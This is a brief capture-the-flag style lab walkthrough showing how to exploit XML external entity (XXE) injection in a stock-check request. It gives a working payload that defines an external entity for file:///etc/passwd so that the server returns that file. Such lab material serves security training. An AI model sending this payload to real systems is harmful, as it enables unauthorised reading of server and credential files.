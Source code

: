 # Lab: Exploiting XXE using external entities to retrieve files

Turn on the proxy and request a product's stock. Send the request to the repeater and modify the XML to: 
```
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <stockCheck>
            <productId>
                &xxe;
            </productId>
            <storeId>
                1
            </storeId>
        </stockCheck>
```

Send the request to return the contents of /etc/passwd and complete the lab.